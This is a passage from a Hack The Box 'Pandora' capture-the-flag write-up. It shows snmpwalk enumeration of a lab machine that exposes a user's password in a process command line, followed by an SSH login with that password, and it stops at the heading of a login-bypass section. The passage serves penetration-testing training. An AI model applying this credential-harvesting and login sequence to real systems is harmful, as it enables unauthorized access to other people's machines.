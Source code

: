 ### snmp(161)

```bash
┌──(kali㉿kali)-[~/htb/pandora]
└─$ snmpwalk -v 2c -c public 10.10.11.136                          
iso.3.6.1.2.1.1.1.0 = STRING: "Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (471577) 1:18:35.77
iso.3.6.1.2.1.1.4.0 = STRING: "Daniel"
iso.3.6.1.2.1.1.5.0 = STRING: "pandora"
iso.3.6.1.2.1.1.6.0 = STRING: "Mississippi"
iso.3.6.1.2.1.1.7.0 = INTEGER: 72
iso.3.6.1.2.1.1.8.0 = Timeticks: (5) 0:00:00.05
...SNIP...
iso.3.6.1.2.1.25.4.2.1.5.828 = STRING: "-c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'"
```

It discloses several information;
- OS version is `Linux 5.4.0-91-generic Ubuntu`.
- There's a process run by command line which contains `daniel`'s credential : `HotelBabylon23`
- There's a binary `/usr/bin/host_check` which keeps running on the target system.



# Shell as `daniel`

### ssh(22)

With the found credential, I can login as `daniel` via SSH.

```bash
┌──(kali㉿kali)-[~/htb/pandora]
└─$ ssh daniel@10.10.11.136
daniel@10.10.11.136's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

<SNIP>

Last login: Tue Mar 11 10:24:05 2025 from 10.10.14.7

daniel@pandora:~$ id
uid=1001(daniel) gid=1001(daniel) groups=1001(daniel)
daniel@pandora:~$ whoami
daniel
```



# Pandora FMS Login Bypass

### Enumeration
